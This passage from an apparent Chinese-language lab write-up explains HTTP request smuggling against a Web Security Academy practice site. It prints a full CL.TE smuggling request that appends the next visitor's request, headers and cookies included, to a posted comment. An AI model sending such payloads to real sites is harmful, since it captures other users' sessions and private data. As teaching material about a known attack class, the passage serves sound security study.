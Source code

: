 原理也比较简单，我们可以找到一个发评论的地方，然后利用评论处进行 HTTP Smuggling，例如，我们可以构造以下请求包：

```plain
POST / HTTP/1.1
Host: ac951f7d1e9ea625803c617f003f005c.web-security-academy.net
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: session=ipRivKyVnK41ZGBQk7JvtKjbD4drk2At
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 271
Transfer-Encoding: chunked

0

POST /post/comment HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 600
Cookie: session=ipRivKyVnK41ZGBQk7JvtKjbD4drk2At

csrf=oIjWmI8aLjIzqX18n5mNCnJieTnOVWPN&postId=5&name=1&email=1%40qq.com&website=http%3A%2F%2Fwww.baidu.com&comment=1
```

只要下面这个 CL 足够大，我们就可以用 HTTP Smuggling 把下一个用户的请求拼接到我们最后一个 comment 参数里面了，然后我们在看评论处就可以看到别人的请求头了。

